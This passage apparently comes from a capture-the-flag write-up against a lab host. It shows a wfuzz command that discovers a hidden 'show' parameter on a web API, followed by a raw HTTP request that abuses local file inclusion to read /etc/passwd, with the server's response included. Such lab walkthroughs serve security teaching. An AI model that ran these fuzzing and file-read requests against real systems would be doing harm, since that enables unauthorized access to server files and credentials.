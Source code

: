 ```bash
$ wfuzz -c -z file,/usr/share/wordlists/dirb/big.txt --hc 404 -t10 "http://target.thm:5000/api/v1/resources/books?FUZZ=1"
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://target.thm:5000/api/v1/resources/books?FUZZ=1
Total requests: 20469

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000002846:   200        1 L      1 W        3 Ch        "author"
000009265:   200        9 L      33 W       237 Ch      "id"
000014727:   200        1 L      1 W        3 Ch        "published"
000016445:   500        356 L    1747 W     23076 Ch    "show"

Total time: 989.4803
Processed Requests: 20469
Filtered Requests: 20465
Requests/sec.: 20.68661

```

I looks like there was a `show` parameter. Remembering the comment about the file inclusion vulnerability, I tried reading the `/etc/passwd` file.

```html
GET /api/v1/resources/books?show=/etc/passwd HTTP/1.1
Host: target.thm:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

-------

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 1555
Access-Control-Allow-Origin: *
Server: Werkzeug/0.14.1 Python/3.6.9
Date: Sat, 03 Jul 2021 23:43:12 GMT

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
```

